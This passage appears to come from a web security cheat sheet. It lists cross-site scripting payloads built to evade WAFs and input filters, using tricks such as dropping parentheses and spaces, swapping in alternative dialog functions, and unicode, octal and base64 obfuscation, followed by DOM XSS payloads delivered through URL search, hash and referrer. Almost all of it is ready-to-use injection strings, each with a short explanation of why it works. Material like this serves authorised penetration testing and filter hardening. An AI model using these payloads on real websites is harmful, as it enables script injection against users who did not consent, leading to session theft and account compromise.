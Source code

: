 ### Bypassing WAF & Filters

#### No Parentheses
```javascript
<svg onload=alert`document.domain`>
<svg onload=alert&#x60;document.domain&#x60;>
<svg onload="alert.call(null,document.domain)">
<svg onload=window['alert'](document.domain)>
```
*Why it works: Template literals and property access eliminate need for parentheses.*

#### No Spaces
```javascript
<svg/onload=alert(document.domain)>
<svg/onload=alert&#40;document.domain&#41;>
<svg onload=alert(document.domain)//
<svg/onload=alert`document.domain`>
```
*Why it works: Forward slashes, HTML encoding, or comments can replace spaces.*

#### No Alert Keyword
```javascript
<svg onload=confirm(document.domain)>
<svg onload=prompt(document.domain)>
<svg onload=eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>
<svg onload=eval('\\u0061lert(document.domain)')>
```
*Why it works: Uses alternative dialog functions or encoding to bypass keyword filters.*

#### Obfuscation Techniques
```javascript
<svg onload=\u0061\u006C\u0065\u0072\u0074(document.domain)>
<svg onload=setTimeout('al'+'ert(document.domain)')>
<svg onload=[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\144\157\143\165\155\145\156\164\56\144\157\155\141\151\156\51')()>
```
*Why it works: Unicode escapes and string concatenation bypass string-based filters.*

## DOM XSS Payload Examples

### Location-Based DOM XSS
```javascript
// Exploit location.search
/?search=<img src=x onerror=alert(document.domain)>

// Exploit location.hash
/#<img src=x onerror=alert(document.domain)>

// Exploit document.referrer
// Visit malicious page first that refers to target
<script>location="https://victim.com/?ref="+encodeURIComponent("<img src=x onerror=alert(document.domain)>")</script>
```
*Pro tip: Always check for parameters reflected in the DOM, especially URL fragments which may bypass server filters.*
